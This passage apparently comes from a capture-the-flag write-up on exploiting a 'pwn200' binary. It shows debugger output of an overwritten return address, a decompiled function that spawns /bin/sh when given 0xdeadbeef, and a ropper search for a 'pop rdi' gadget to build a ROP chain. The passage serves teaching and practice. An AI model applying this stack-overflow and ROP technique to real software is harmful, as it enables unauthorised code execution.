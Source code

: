 ```sh
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn200", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400981 → add_cereal()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  info frame
Stack level 0, frame at 0x7ffe92638b18:
 rip = 0x400981 in add_cereal; saved rip = 0x4242424242424242
 called by frame at 0x7ffe92638b28
 Arglist at 0x4141414141414141, args:
 Locals at 0x4141414141414141, Previous frame's sp is 0x7ffe92638b20
 Saved registers:
  rip at 0x7ffe92638b18
```

I took a look at the `custom_feature` function inside of Ghidra's decompiler, and unlike in the previous binary, this function will only produce a shell if the first parameter is equal to `0xdeadbeef`. Note that `-0x21524111` is equal to `0xdeadbeef`.
```c
void custom_feature(int param_1)

{
  char *local_18;
  undefined8 local_10;

  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  else {
    puts("you are not authenticated to do this :<");
  }
  return;
}
```

In order to use the `custom_feature` function, I had to create a ROP chain that moves `0xdeadbeef` into RDI before calling `custom_feature`. To do this, I searched for a POP RDI instruction.
```sh
$ ropper --file pwn200 --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: pwn200
0x0000000000400be3: pop rdi; ret;
```
